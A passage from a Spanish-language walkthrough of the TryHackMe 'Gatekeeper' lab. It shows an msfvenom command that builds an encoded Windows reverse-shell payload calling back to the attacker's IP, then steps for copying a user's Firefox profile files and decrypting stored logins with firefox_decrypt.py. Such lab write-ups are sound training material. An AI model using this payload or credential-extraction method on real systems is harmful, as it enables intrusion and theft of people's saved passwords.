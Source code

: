 Una vez hemos conseguido ejecución remota de comandos con nuestro script, lo único que nos queda es crear una nueva shell con nuestra `IP` de Tryhackme y enviarla.

```sql
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.64.18 LPORT=443 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a" -e x86/shikata_ga_nai -f c
```

![Shell Gatekeeper](/assets/images/rshellGatekeeper.png)

## Escalada de privilegios

### 1. Descargamos ficheros que almacena firefox

En este caso nos aprovecharemos de credenciales que almacena **firefox**.

```python
cd C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
```

De este directorio descargaremos unos ficheros que luego nos servirán para obtener las credenciales almacenadas, por medio de [firefox_decrypt.py](https://github.com/Unode/firefox_decrypt/blob/master/firefox_decrypt.py).

- cert9.db
- cookies.sqlite
- key4.db
- logins.json

### 2. Obtenemos las credenciales

Ejecutaremos el siguiente comando pasándole como parámetro el directorio donde se encuentran nuestros ficheros descargados.

```python
python3 firefox_decrypt.py /home/jch/THM/Gatekeeper/content/firefox
```

![Credenciales de firefox](/assets/images/credsGatekeeper.png)
